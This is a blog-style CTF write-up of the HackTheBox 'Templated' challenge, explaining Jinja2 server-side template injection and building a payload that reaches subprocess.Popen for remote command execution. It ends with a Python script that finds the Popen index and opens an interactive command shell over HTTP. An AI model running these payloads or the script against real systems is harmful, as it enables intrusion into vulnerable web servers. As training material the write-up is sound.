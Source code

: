 ```yaml
---
title: HackTheBox - Templated
date: 2022-05-13 21:30:00
categories: [HackTheBox, Challenges]
tags: [hackthebox, templated, ssti, jinja2, scripting, python]     # TAG names should always be lowercase
img_path: /assets/img/HackTheBox/Templated
---
```

SSTI or Server-Side Template Injection is a vulnerability that always really confused me but at the same time, really
interested me. Add those together and I went about finding out how it worked.<br>

Templating is a way in which developers can take dynamic data from a source and incorporate it into the page. It does
this by having placeholder variables written statically in the source and then having those variables replaced with
the dynamic data such as user input.<br>

In the case of Jinja2, these templates would be written in a way for the formatting engine to use them, such as in
the case of a 404 page:<br>
`The page{% raw %} {{'directory'}} {% endraw %}could not be found`<br>
Would render as:<br>
`The page 'AAAAA' could not be found`<br>

SSTI can occur when user input is concatenated into a template render rather than safely passed into the template.
This allows the user to render their own "templates".<br>

This is what is presumably happening in HackTheBox Templated. With a name like Templated and the only text on the
page referencing an under construction Jinja2 site, the vulnerability isn't exactly hiding.

![Jinja2](templated_jinja2.png "Jinja2")
_Jinja2_

Requesting a random directory, we see it is reflected back into the 404 page.

![404](templated_404.png "404")
_404_

We know it's running Jinja2, we can try and request `{%raw%}{{7 * 7}}{%endraw%}` to see if we can inject our own
"template".

![49](templated_49.png "49")
_Jinja2 SSTI_

Now it gets interesting. We have SSTI. Time to build a payload to get RCE on the container. In Python, everything
is an object and so everything involved in the Jinja2 server is accessible by bouncing around to different objects.<br>

For the first payload, we can bounce back a step to the `string` object by requesting:<br>
```
{%raw%}{{"1337.__class__"}}{%endraw%}
```

![class str](templated_classstr.png "class str")
_'<class 'str'>'_

Now that we're in the `'<class 'str'>'` object, we can take another step back to the base of the string object with:<br>
```
{%raw%}{{"1337".__class__.__base__}}{%endraw%}
```

![class object](templated_object.png "class object")
_'<class 'object'>'_

Now we're at the origin, since everything in Python is an object, everything inherits from this object meaning we can
bounce around anywhere we want. We can stop taking steps back and instead take a step forward into a subclass that'll 
allow us to execute commands. In order to enter the subclass we want, we first must list what subclasses are available 
for use:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()}}{%endraw%}
```

![subclasses](templated_subclasses.png "subclasses")
_That's a lot of subclasses_

`Control + F` is your friend. We can use it to search for classes that'll help us out. In this instance, we can target
`subprocess.Popen`. This operates like a regular Python list. We need to find the index of `subprocess.Popen` in this
list. I'll go over how I found it later, but for now, it's `[414]`:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()[414]}}{%endraw%}
```

![subprocess](templated_subprocess.png "subprocess")
_subprocess.Popen_

Now that we're right where we want to be. We can achieve RCE with this final payload:<br>
```
{%raw%}{{"1337".__class__.__base__.__subclasses__()[414]('cat flag.txt', shell=True, stdout=-1).communicate()[0]}}{%endraw%}
```


![solved](templated_solved.png "solved")
_Flag_

Now, we've solved the challenge but that's only half the fun. I'm now going to move onto making a nice script to
interact with the RCE. This script also includes how I found the index of `subprocess.Popen`.

---
# Script

The first half of the script will find the index of `subprocess.Popen`. In the interest of not slamming the challenge
with ~600 requests to find the index, I ballparked it around 400 - 500. It then simply checked for `subprocess.Popen`
in all of them and if it finds it, it sets the index in the URL for the second half of the script. You could easily 
hardcode the index after running it once and scrap this part of the script, but there's no fun in that.
{%raw%}
```python
#!/bin/env python3

import requests

challenge = ""

print("[+] Finding Subprocess...")

for i in range(400,500):
	challenge = "http://IP:PORT/{{'abc'.__class__.__base__.__subclasses__()[%s]}}" %i
	r = requests.get(challenge)
	if "subprocess.Popen" in r.text:
		print("[+] Subprocess Found at [{}]".format(i))
		break
```

Now that we have the index of `subprocess.Popen`, we can write the part of the script that'll interact with it in a
terminal-like interface.

```python
print("[+] Spawning Shell...")

while True:
	try:
		command = input("Path-IX> ")
		shell = challenge[:-2] + "('" + command + "', shell=True, stdout=-1).communicate()[0].decode('utf-8').strip()}}"
		r = requests.get(shell)
		print("----------\n"+r.text[38:-30]+"\n----------")
	except KeyboardInterrupt:
		print("\n[+] Quitting...")
		quit()
```


Here it simply sets the RCE payload to whatever command is inputted and keeps it open in a constant loop until
KeyboardInterrupt. Added on some extra cleanup at the end of the payload to decode the output and I used
Python slices to cut down on the returned 404 message etc. The most satisfying part of writing a script isn't 
getting it working, it's making it look nice.


![Path-IX](templated_rce.png "Path-IX")
_Shell?_

Full script:
```python
#!/bin/env python3

import requests
challenge = ""

print("[+] Finding Subprocess...")

for i in range(400,500):
	challenge = "http://IP:PORT/{{'abc'.__class__.__base__.__subclasses__()[%s]}}" %i
	r = requests.get(challenge)
	if "subprocess.Popen" in r.text:
		print("[+] Subprocess Found at [{}]".format(i))
		break

print("[+] Spawning Shell...")

while True:
	try:
		command = input("Path-IX> ")
		shell = challenge[:-2] + "('" + command + "', shell=True, stdout=-1).communicate()[0].decode('utf-8').strip()}}"
		r = requests.get(shell)
		print("----------\n"+r.text[38:-30]+"\n----------")
	except KeyboardInterrupt:
		print("\n[+] Quitting...")
		quit()
```
{%endraw%}
# :)
